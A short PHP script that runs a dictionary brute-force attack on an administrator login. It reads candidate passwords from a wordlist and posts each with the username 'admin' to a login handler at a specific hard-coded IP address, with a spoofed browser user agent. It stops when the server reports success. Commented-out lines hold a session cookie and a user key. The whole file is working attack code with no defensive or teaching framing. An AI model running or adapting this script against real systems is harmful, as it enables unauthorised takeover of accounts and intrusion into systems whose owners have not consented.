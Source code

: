 # script
<?php
	$file_path = "wordlist.txt";

	if (file_exists($file_path)) {
		$file_arr = file($file_path);

		foreach($file_arr as $value){
			$res = curl($value);
			if ($res['result']) {
				echo $value . "\r\n";
				break;
			} else {
				echo $res['msg'] . "\r\n";
			}
		}
	}


	function curl($password) 
	{
		$curl = curl_init();
		curl_setopt($curl, CURLOPT_USERAGENT, 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)');
	    curl_setopt($curl, CURLOPT_URL, 'http://210.28.160.155:8081/Ashx/SysLogin.ashx');
	    curl_setopt($curl, CURLOPT_HEADER, 1);
	    curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
	    // curl_setopt($curl, CURLOPT_COOKIE, "JSESSIONID=780C7B70E4783A3797FF5F5E25602AAA");
	    curl_setopt($curl, CURLOPT_POST, 1);
	    $post_data = array(
	        // "userKey" => "D1B5CC2FE46C4CC983C073BCA897935608D926CD32992B5900",
	        "userName" => "admin",
	        "password" => $password,
	        // "randCode" => "v0p1"
	    );
	    curl_setopt($curl, CURLOPT_POSTFIELDS, $post_data);
	    $data = curl_exec($curl);
	    curl_close($curl);
	    $body = explode("{", $data);
	    $isSuccess = json_decode('{' . $body[1])->{'success'};
	    $msg = json_decode('{' . $body[1])->{'message'};

	    return array(
	    	"result" => $isSuccess,
	    	"msg" => $msg
	    );
	}
